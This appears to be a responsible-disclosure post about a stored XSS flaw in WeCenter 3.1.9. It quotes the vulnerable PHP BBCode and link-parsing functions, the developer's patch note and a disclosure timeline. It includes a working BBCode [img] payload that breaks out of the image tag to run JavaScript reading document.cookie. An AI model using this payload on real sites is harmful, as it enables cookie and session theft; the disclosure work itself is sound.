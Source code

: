 ```yaml
---
layout: post
title: WeCenter 3.1.9 Stored XSS Vulnerability
---
```

#### 0x01 AFFECTED

Version: WeCenter 3.1.9 (~2016/11/21)

Download: http://wenda.wecenter.com/page/download

#### 0x02 DESCRIPTION
 
SourceCode, Template vim views/default/question/index.tpl.htm: content markitup-box

app/question/main.php:

    $question_info['question_detail'] = FORMAT::parse_attachs(nl2br(FORMAT::parse_bbcode($question_info['question_detail'])));

wecenter319/system/class/cls_format.inc.php:

    public static function parse_bbcode($text)
    {
        if (!$text)
        {
            return false;
        }

        return self::parse_links(load_class('Services_BBCode')->parse($text));
    }
    
wecenter319/system/Services/BBCode.php, wecenter319/system/class/cls_format.inc.php:

    public static function parse_links($str)
    {
        $str = @preg_replace_callback('/(?<!!!\[\]\(|"|\'|\)|>)(https?:\/\/[-a-zA-Z0-9@:;%_\+.~#?\&\/\/=!]+)(?!"|\'|\)|>)/i', 'parse_link_callback', $str);
        if (strpos($str, 'http') === FALSE)
        {
            $str = @preg_replace_callback('/(www\.[-a-zA-Z0-9@:;%_\+\.~#?&\/\/=]+)/i', 'parse_link_callback', $str);
        }
        $str = @preg_replace('/([a-z0-9\+_\-]+[\.]?[a-z0-9\+_\-]+@[a-z0-9\-]+\.+[a-z]{2,6}+(\.+[a-z]{2,6})?)/is', '<a href="mailto:\1">\1</a>', $str);

        return $str;
    }
    
使用 bbcode 插入 img 的时候，我们利用 parse_links 可以实现对 img 的截断，构造如下 Payload 注入恶意 JavaScript 代码：

[img]http://www.n0tr00t.com/?/account/aaaa/?return_url=http://onerror=location=/javascript:console.log%28document.cookie%29/.source//a[/img][url]http://a.com[/url]

注：其中默认情况下不允许注册用户外链图像，所以将 [img] 地址改为攻击站点即可，通过浏览器 DOM 解析后执行代码。

#### 0x03 Fix

\<jack_ch@icloud.com>:

  evi1m0.bat 您好，我是 WeCenter 的开发者，感谢您对 WeCenter 的关注，您提出的跨站问题确实存在，下面是修复方法，我直接提供了修改后的文件：

第一文件是 BBCode.php，请直接将这个文件与 system/Services/BBCode.php 替换

第二个文件是 cls_format.inc.php，这个文件位于 system/class/cls_format.inc.php， 这个文件更新了下列函数:
  
  - parse_links()
  - parse_bbcode()

第三个文件是 functions.app.php，这个文件位于 system/functions.app.php，这个文件更新了下列函数:
 
  - parse_link_callback() 【更新】
  - parse_link_callback_bbcode() 【新增】

注：目前补丁包已经更新至官方下载的源码包中，新用户可以直接安装，老用户可以替换/新增补丁文件。

#### 0x04 Discloure Timeline

- 2016/11/21 Report vuln detail to WeCenter.
- 2016/11/25 WeCenter fix, Release patch.
- 2016/12/22 Public, via @evi1m0.

